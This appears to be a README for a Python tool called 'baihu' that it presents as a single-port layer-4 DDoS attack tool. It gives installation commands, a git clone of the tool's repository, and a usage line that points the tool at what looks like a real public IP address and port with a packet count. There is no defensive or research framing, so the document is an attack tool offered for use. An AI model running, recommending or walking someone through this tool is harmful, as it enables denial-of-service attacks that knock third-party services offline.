 # 
# 

This is a tool used for L4 ddos attack.

This is a  tool used for single port ddos attack. As  it attacks to a single port you can target a specific service/port .

commands
_______________
	$ apt update -y && apt upgrade -y
	$ pkg install git
	$ pkg install figlet
	$ pkg install python2
	$ git clone https://github.com/km2262488/baihu.git
	$ cd baihu
	$ git pull
	$ python2 baihu.py <IP> <PORT> <PACKETS>
 
example : python2 baihu.py 104.27.190.77 8080 100  
	
	  Target IP : 104.27.190.77 
	  Port      : 443
	  Packet    : 1000


Tool used for ddos attack.




	

	
